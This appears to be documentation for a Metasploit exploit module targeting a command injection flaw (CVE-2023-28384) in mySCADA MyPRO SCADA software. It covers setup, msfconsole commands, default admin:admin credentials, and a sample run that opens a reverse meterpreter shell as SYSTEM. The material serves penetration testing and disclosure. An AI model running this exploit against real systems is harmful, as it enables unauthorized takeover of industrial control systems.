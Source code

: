## Vulnerable Application

**Vulnerability Description**

This module exploits a command injection vulnerability in mySCADA MyPRO <= v8.28.0 (CVE-2023-28384).

An authenticated remote attacker can exploit this vulnerability to inject arbitrary OS commands, which will get executed in the context of `NT AUTHORITY\SYSTEM`.
This module uses the default admin:admin credentials, but any account configured on the system can be used to exploit this issue.

Versions <= 8.28.0 are affected. CISA published [ICSA-23-096-06](https://www.cisa.gov/news-events/ics-advisories/icsa-23-096-06) to cover the security issues. The official changelog for the updated version, v8.29.0, is available [here](https://web.archive.org/web/20230320130928/https://www.myscada.org/changelog/?section=version-8-29-0), although it only mentions a "General security improvement" without further details. 

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor](http://nsa.myscada.org/myPRO/WIN/myPRO_x64_8.28.0.exe).
For the product to work correctly, the project and log directories need to be configured first, which can be done through the web inteface (navigate to System > Storage).

**Successfully tested on**

- mySCADA MyPRO 8.28.0 on Windows 10 22H2
- mySCADA MyPRO 8.27.0 on Windows 10 22H2
- mySCADA MyPRO 8.26.0 on Windows 10 22H2

## Verification Steps

1. Install the application
2. Configure the project and log paths (System > Storage in the web interface, running by default on TCP ports 80 & 443)
3. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/windows/scada/mypro_cmdexe
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/scada/mypro_cmdexe) > set RHOSTS <IP>
msf6 exploit(windows/scada/mypro_cmdexe) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Options
**USERNAME**

The username of a MyPRO user (default: admin)

**PASSWORD**

The associated password of the MyPRO user (default: admin)

## Scenarios

Running the exploit against MyPRO v8.28.0 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the following:

```
msf6 exploit(windows/scada/mypro_cmdexe) > exploit

[*] Started reverse TCP handler on 192.168.1.241:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Checking credentials...
[+] Credentials are working.
[*] Sending command injection...
[*] Using randomly generated email address: VfzbSXcISaX@fNavXU.com
[*] Sending stage (201798 bytes) to 192.168.1.239
[*] Meterpreter session 12 opened (192.168.1.241:4444 -> 192.168.1.239:57382) at 2024-07-23 23:38:12 -0400
[*] Exploit finished, check thy shell.

meterpreter > shell
Process 2632 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4651]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```